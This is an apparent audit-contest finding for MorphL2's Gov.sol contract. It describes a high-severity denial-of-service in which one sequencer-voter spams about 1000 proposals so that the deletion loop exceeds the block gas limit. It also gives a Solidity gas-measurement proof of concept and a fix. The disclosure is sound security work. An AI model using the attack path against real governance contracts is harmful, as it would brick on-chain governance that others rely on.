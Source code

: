 Tangy Navy Hornet

High

# Governance can be bricked by a single voter.

### Summary

Governance can be bricked by a single voter.

### Root Cause

Governance can be bricked by a single voter by spamming unbounded proposals making the contract become entirely useless.

Particularly when executing the proposal, there is a `for` loop which will delete all proposal data from the previously passed proposal to the current proposal.

[Gov.sol#L226-L265](https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l2/staking/Gov.sol#L226-L265)
```solidity
    /// @notice execute a passed proposal
    function _executeProposal(uint256 proposalID) internal {
        if (batchBlockInterval != proposalData[proposalID].batchBlockInterval) {
            uint256 _oldValue = batchBlockInterval;
            batchBlockInterval = proposalData[proposalID].batchBlockInterval;
            emit BatchBlockIntervalUpdated(_oldValue, proposalData[proposalID].batchBlockInterval);
        }
        if (batchMaxBytes != proposalData[proposalID].batchMaxBytes) {
            uint256 _oldValue = batchMaxBytes;
            batchMaxBytes = proposalData[proposalID].batchMaxBytes;
            emit BatchMaxBytesUpdated(_oldValue, proposalData[proposalID].batchMaxBytes);
        }
        if (batchTimeout != proposalData[proposalID].batchTimeout) {
            uint256 _oldValue = batchTimeout;
            batchTimeout = proposalData[proposalID].batchTimeout;
            emit BatchTimeoutUpdated(_oldValue, proposalData[proposalID].batchTimeout);
        }
        if (maxChunks != proposalData[proposalID].maxChunks) {
            uint256 _oldValue = maxChunks;
            maxChunks = proposalData[proposalID].maxChunks;
            emit MaxChunksUpdated(_oldValue, proposalData[proposalID].maxChunks);
        }
        if (rollupEpoch != proposalData[proposalID].rollupEpoch) {
            uint256 _oldValue = rollupEpoch;
            rollupEpoch = proposalData[proposalID].rollupEpoch;
            rollupEpochUpdateTime = block.timestamp;
            emit RollupEpochUpdated(_oldValue, proposalData[proposalID].rollupEpoch);
        }
        proposalInfos[proposalID].executed = true;

        // when a proposal is passed, the previous proposals will be invalidated and deleted
=>      for (uint256 i = undeletedProposalStart; i < proposalID; i++) {
            delete proposalData[i];
            delete proposalInfos[i];
            delete votes[i];
        }
        undeletedProposalStart = proposalID;

        emit ProposalExecuted(proposalID, batchBlockInterval, batchMaxBytes, batchTimeout, maxChunks, rollupEpoch);
    }
```

Thus a single voter can continuously create proposals, which can cause the deletion of proposals to exceed the block gas limit. 
The `ProposalData` struct costs 5 storage slots, the `ProposalInfo` struct costs 2 storage slots, with the caveat that 1 of them will be set to zero initially, and finally deleting the `votes` will cost N storage slots, where N is the number of voters. At minimum there will be at least 6 zero to non-zero SSTOREs per loop translating to 30k gas per proposal. A malicious voter will need to create at maximum ~1000 proposals to exceed the 30M block gas limit and permanently DoS this function and make the contract useless.

### Internal pre-conditions

Must be eligible to vote (a sequencer)

### External pre-conditions

n/a

### Attack Path

1. Voter creates 1000 proposals
2. The next proposal that passes cannot be executed, bricking the entire contract.

### Impact

Governance can be bricked by a single voter by spamming unbounded proposals making the contract become entirely useless. This has effects on other parts of the system as the primary function of governance is to adjust the rollup parameters.

### PoC

Test that shows 1000 proposals can exceed block gas limit.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/console.sol";

contract ProposalDOS {

    /// @custom:field voting expiration time
    /// @custom:field executed
    struct ProposalInfo {
        uint256 expirationTime;
    }

    /// @custom:field batchBlockInterval
    /// @custom:field batchMaxBytes
    /// @custom:field batchTimeout
    /// @custom:field maxChunks
    /// @custom:field rollupEpoch
    struct ProposalData {
        uint256 batchBlockInterval;
        uint256 batchMaxBytes;
        uint256 batchTimeout;
        uint256 maxChunks;
        uint256 rollupEpoch;
    }

    /// @notice proposal data
    mapping(uint256 proposalID => ProposalData) public proposalData;

    /// @notice proposal info
    mapping(uint256 proposalID => ProposalInfo) public proposalInfos;

    uint256 length = 1000;

    function setUp() public {
        for (uint256 i; i < length; i++) {
            proposalData[i] = ProposalData(1, 1, 1, 1, 1);
            proposalInfos[i] = ProposalInfo(block.timestamp);
        }
    }

    function test_proposal_dos() public {
        uint256 gasBefore = gasleft();
        console.log("Gas before: ", gasBefore);
        for (uint256 i; i < length; i++) {
            delete proposalData[i];
            delete proposalInfos[i];
        }
        uint256 gasAfter = gasleft();
        console.log("Gas after: ", gasAfter);
        console.log("Gas consumed: ", gasBefore - gasAfter);
    }
}
```
Results:
```solidity
Logs:
  Gas before:  1073720620
  Gas after:  1043362317
  Gas consumed:  30358303
```

### Mitigation

Create a separate function that can be called to clean up the proposals. You may also want to limit the number of active proposals a user might have at one time.